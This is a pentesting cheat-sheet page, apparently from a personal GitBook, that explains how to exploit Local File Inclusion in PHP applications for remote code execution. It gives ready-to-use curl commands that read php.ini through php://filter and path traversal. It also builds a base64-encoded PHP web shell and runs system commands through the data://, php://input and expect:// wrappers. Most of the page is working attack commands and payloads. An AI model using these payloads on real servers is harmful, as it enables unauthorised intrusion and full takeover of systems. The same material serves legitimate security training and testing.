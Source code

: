 # PHP Wrappers

We can leverage PHP wrappers to execute code on back-end servers through Local File Inclusion (LFI) vulnerabilities. By utilizing various PHP wrappers, we can gain control over the server and potentially execute commands remotely.

***

### 🔍 Checking PHP Configurations

#### Verifying `allow_url_include`

Before using certain PHP wrappers, it's essential to check if the `allow_url_include` setting is enabled in the PHP configuration. This setting allows the inclusion of external data, which is crucial for executing remote code. The configuration file is found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version

To check this, we can attempt to read the PHP configuration file using the base64 filter:

{% code overflow="wrap" %}
```bash
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/X.Y/apache2/php.ini"
```
{% endcode %}

After obtaining the base64 encoded string, decode it and search for the `allow_url_include` setting:

{% code overflow="wrap" %}
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include
```
{% endcode %}

If the output shows `allow_url_include = On`, we can proceed with our attacks.

***

### 🚀 Remote Code Execution with PHP Wrappers

#### Using the Data Wrapper

With `allow_url_include` enabled, we can use the **data wrapper** to include and execute PHP code. The data wrapper allows us to pass base64 encoded strings, which can be decoded and executed by the server.

1.  **Create a PHP Web Shell**:

    ```bash
    echo '<?php system($_GET["cmd"]); ?>' | base64
    ```

    This will output a base64 encoded string of the PHP code.
2.  **Execute Commands**: Use the encoded string in a URL:

    {% code overflow="wrap" %}
    ```bash
    http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<BASE64_STRING>&cmd=id
    ```
    {% endcode %}

    Alternatively, using cURL:

    {% code overflow="wrap" %}
    ```bash
    curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,<BASE64_STRING>&cmd=id' | grep uid
    ```
    {% endcode %}

#### Using the Input Wrapper

The **input wrapper** functions similarly to the data wrapper but requires a POST request to include the PHP code.

1.  **Send a POST Request**:

    {% code overflow="wrap" %}
    ```bash
    curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
    ```
    {% endcode %}

    Ensure that the vulnerable function can accept GET requests to pass commands dynamically.

#### Using the Expect Wrapper

The **expect wrapper** allows direct command execution without needing to provide a web shell. This wrapper must be installed and enabled on the server.

1.  **Check for Expect Installation**:

    {% code overflow="wrap" %}
    ```bash
    echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
    ```
    {% endcode %}
2.  **Execute Commands**: If the expect module is enabled, you can run commands directly:

    ```bash
    curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
    ```
